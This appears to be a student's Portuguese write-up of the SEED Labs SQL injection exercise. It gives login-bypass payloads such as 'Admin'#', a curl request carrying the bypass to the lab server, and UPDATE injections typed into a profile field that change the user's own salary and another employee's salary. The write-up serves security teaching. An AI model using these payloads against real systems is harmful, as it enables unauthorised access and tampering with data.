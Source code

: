 # Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2
### Tarefa 2.1
Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```

![login](images/login.png)

![info](images/details.png)****

Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'. A nova query será então:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin'#' and Password='';
```

![login2](images/login2.png)

### Tarefa 2.2

http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=' > index.html
```

abrindo o index.html no browser, obtemos:

![info](images/details2.png)

### Tarefa 2.3

## Tarefa 3

### Tarefa 3.1

Primeiro é necessário fazer login. É usada a mesma estratégia da tarefa 2.

![info](images/alice_login.png)

Alterando o input de um dos campos na edição de perfil podemos alterar o nosso salário. Por exemplo, ao colocar "123', salary = 1000000 WHERE EID = 10000;#" no campo do Phone Number, o nosso salário é alterado para 1000000, sabendo que o nosso EID é 10000.

O sql alterado ficará como o seguinte:

```sql
    UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='',
    PhoneNumber= '123', salary = 1000000 WHERE EID = 10000;#
    WHERE ID=;
```
Como se pode observar pela imagem, o salário foi alterado com sucesso.<br>


![info](images/alice_profile.png)


### Tarefa 3.2

Para alterar o salário do Boby, sabendo que o seu EID é 20000, podemos colocar "123', salary = 1 WHERE EID = 20000;#" no campo do PhoneNumber.


O sql alterado ficará como o seguinte:

```sql
    UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='',
    PhoneNumber= '123', salary = 1 WHERE EID = 20000;#
    WHERE ID=;
```

![info](images/boby_changed.png)
